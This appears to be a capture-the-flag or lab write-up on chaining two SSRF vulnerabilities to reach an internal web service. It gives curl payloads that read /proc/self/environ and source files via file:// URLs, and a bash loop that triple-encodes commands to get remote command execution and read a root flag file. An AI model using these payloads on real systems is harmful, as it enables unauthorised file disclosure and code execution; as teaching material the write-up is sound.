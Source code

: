 ##### Let us make a quick recap of what we have achieved:

-   Issue requests on behalf of ubuntu-web to internal.app.local
-   Reach a web application listening on port 5000 inside internal.app.local chaining two SSRF vulnerabilities
-   Disclose a list of files via the internal application

Let us issue a request to disclose `/proc/self/environ` file, where the current path should be present under the `PWD` environment variable.

```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -
```

Now we know that the current path is `/app`, and we have a list of interesting files. Let's disclose the `internal_local.py` file as follows.

```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"
```

By studying the source code above, we notice a functionality that allows us to execute commands on the remote host sending a GET request to`/runme?x=<CMD>`. Let us confirm remote code execution by sending `whoami` as a command.

you can use it like this 
```bash
curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"
```

To execute commands with arguments or special characters, we need to encode them three times as we pass them through three different web applications.

For doing so, you can use any online URL-encoding service such as [urlencoder.org](https://www.urlencoder.org/). A quick way to achieve this from the terminal also exists. This is to use `jq`, which supports encoding as follows:

```bash
sudo apt-get install jq
echo "encode me" | jq -sRr @uri
>>> encode%20me%0A
```

we can automate it with a simple function 

```bash
function rce() {
while true; do
echo -n "# "; read cmd
ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
curl -s -o - "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
echo ""
done
}
```

For finishing the Exercise we used the function on the target and use the command 
```bash
cat /app/../../root/flag.txt
```

## Questions/Thoughts


## 🔗 Links
-  